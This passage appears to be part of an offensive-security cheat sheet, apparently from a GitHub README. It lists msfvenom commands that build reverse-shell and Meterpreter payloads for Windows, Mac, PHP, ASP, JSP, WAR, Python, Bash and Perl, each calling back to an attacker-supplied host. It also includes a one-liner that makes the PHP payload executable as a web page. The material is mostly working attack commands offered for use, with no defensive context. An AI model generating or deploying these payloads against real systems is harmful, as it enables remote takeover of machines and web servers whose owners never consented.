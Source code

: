       `msfvenom -p windows/meterpreter/reverse_tcp LHOST=<Your IP Address> LPORT=<Your Port to Connect On> -f exe > shell.exe`

      *Mac*

      `msfvenom -p osx/x86/shell_reverse_tcp LHOST=<Your IP Address> LPORT=<Your Port to Connect On> -f macho > shell.macho`

      **Web Payloads**

      *PHP*

      `msfvenom -p php/reverse_php LHOST=<Your IP Address> LPORT=<Your Port to Connect On> -f raw > shell.php`

      OR

      `msfvenom -p php/meterpreter_reverse_tcp LHOST=<Your IP Address> LPORT=<Your Port to Connect On> -f raw > shell.php`

      Then we need to add the <?php at the first line of the file so that it will execute as a PHP webpage:

      `cat shell.php | pbcopy && echo '<?php ' | tr -d '\n' > shell.php && pbpaste >> shell.php`

      *ASP*

      `msfvenom -p windows/meterpreter/reverse_tcp LHOST=<Your IP Address> LPORT=<Your Port to Connect On> -f asp > shell.asp`

      *JSP*

      `msfvenom -p java/jsp_shell_reverse_tcp LHOST=<Your IP Address> LPORT=<Your Port to Connect On> -f raw > shell.jsp`

      *WAR*

      `msfvenom -p java/jsp_shell_reverse_tcp LHOST=<Your IP Address> LPORT=<Your Port to Connect On> -f war > shell.war`

      **Scripting Payloads**

      *Python*

      `msfvenom -p cmd/unix/reverse_python LHOST=<Your IP Address> LPORT=<Your Port to Connect On> -f raw > shell.py`

      *Bash*

      `msfvenom -p cmd/unix/reverse_bash LHOST=<Your IP Address> LPORT=<Your Port to Connect On> -f raw > shell.sh`

      *Perl*

      `msfvenom -p cmd/unix/reverse_perl LHOST=<Your IP Address> LPORT=<Your Port to Connect On> -f raw > shell.pl`

      **Shellcode**

      For all shellcode see ‘msfvenom –help-formats’ for information as to valid parameters. Msfvenom will output code that is able to be cut and pasted in this language for your exploits.
